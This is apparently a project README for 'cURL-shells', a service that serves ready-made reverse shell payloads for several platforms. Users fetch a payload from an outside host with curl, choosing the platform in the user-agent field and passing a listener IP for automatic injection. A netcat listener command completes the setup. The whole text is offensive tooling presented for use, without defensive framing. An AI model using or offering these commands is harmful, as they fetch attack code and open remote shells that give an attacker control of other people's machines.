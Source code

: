 # cURL-shells
A simple and fast way to grab reverse shells for any operating system—straight from the terminal.

## How to Use:

To fetch a reverse shell payload, just use:

```bash
curl curl-shells.com -A "<platform>"
```

Replace `<platform>` with one of the following options:
- `Windows`
- `Linux`
- `Mac`
- `Py` (Python)
- `PHP`
- `Help` (shows all available options)

Example:
```bash
curl curl-shells.com -A "Linux"
```

You can also specify your listener IP for automatic injection using the `-H` flag:

```bash
curl curl-shells.com -A "Linux" -H "IP:10.10.10.10"
```

This will auto-replace any `<LHOST>` placeholders in the shell with your custom IP—ready to copy and paste.

---

**Important Note:** Always start your listener first with:

```bash
nc -lnvp 4444
```

Thanks for using **curl-shells**!


Thank you to [revshells.com](https://revshells.com) and [pentestmonkey.net](https://pentestmonkey.net) for the reverse shells in this project!
```
